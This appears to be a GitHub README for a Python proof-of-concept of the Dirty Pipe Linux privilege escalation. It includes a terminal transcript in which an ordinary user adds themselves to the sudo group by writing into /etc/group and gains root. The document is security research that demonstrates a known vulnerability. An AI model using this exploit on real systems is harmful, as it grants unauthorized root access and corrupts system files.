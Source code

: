 # POC Exploit to add user to Sudo for Dirty Pipe Vulnerability

This repo is based of the Vulnerability, Writeup and Exploit produced by Max Kellermann all found [here](https://dirtypipe.cm4all.com/).

Just like everyone I had to take advantage of playing with the worlds most trivial to repro Priv Esc the blog post does a great job of explaining it all.

I translated the exploit into python simply to get a better feel for it, but this is an exact copy of the C exploit.

## Requires
Python 3.10 (due to use of os.splice call)

## Bad bits
Corrupts the /etc/group file by writing into the line directly following the sudo entry. But when you are root you can fix this using the copy.

Places a copy of /etc/group at /tmp/group_backup

### Demonstation

```sh
test@kali:/home/user/working$ whoami
test
test@kali:/home/user/working$ sudo whoami
test is not in the sudoers file.  This incident will be reported.
test@kali:/home/user/working$ python3.10 poc.py
[*] Dirty PIPE POC [*]
[*] Exploit will add test to sudoers
[*] Finding offset of sudo entry in /etc/group
[*] Found sudo group offset
[*] Confirmed it is not last.
[*] Opening /etc/group
[*] Opening PIPE
[*] Contaminating flags of pipe buffer
[*] 65536 bytes written to pipe
[*] 65536 bytes read from pipe
[*] Splicing byte from /etc/group to pipe
[*] Spliced 1 bytes
[*] Altering group to add test
[*] 6 bytes written to /etc/group
test@kali:/home/user/working$ su test
Password:
test@kali:/home/user/working$ sudo whoami
root
test@kali:/home/user/working$
```